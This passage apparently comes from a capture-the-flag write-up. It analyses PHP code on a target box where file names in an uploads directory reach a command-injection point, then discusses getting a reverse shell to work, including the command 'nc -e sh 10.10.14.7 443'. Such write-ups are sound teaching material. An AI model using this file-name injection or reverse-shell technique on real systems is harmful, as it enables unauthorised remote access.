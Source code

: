 ```

root@kali# ls -a
.  ..  index.php  lib.php  photos.php  .test  upload.php

```

```

php > $files = preg_grep('/^([^.])/', scandir('.')); print_r($files);
Array
(
    [5] => index.php
    [6] => lib.php
    [7] => photos.php
    [8] => upload.php
)

```

Now there’s a `foreach` over `$files` where the number is stored as `$key` and the filename as `$value`.

`$value` is passed to `getnameCheck()`, and the resulting `$name` and `$value` are passed to `check_ip()`:

```

list ($name,$ext) = getnameCheck($value);
$check = check_ip($name,$value);

```

If `$check[0]` is false, the code will reach the target line.

In `lib.php`, `check_ip` just runs `$name` through `filter_var`, which is using [FILTER\_VALIDATE\_IP](https://www.w3schools.com/php/filter_validate_ip.asp) to check for valid IP addresses. As `getnameCheck()` is exactly the same as `getnameUpload()` above, `$name` will be anything before the first `.`.

This means any file I write in the `uploads` directory that isn’t named a valid IP will be passed to the part I can inject into.

### Shell Issues

Shells on this box we kind of annoying. This is a good case of remembering to always try to run a shell yourself before trying to get another user’s process to run it. Once I was sure I had a shell that connected back when I ran it, I could use that same command for the privesc.

For example, I wanted to have guly run `nc -e sh 10.10.14.7 443`. This should work, as `sh` is in my path. But it fails:

```

bash-4.2$ nc -e sh 10.10.14.7 443                                           
exec: No such file or directory

```
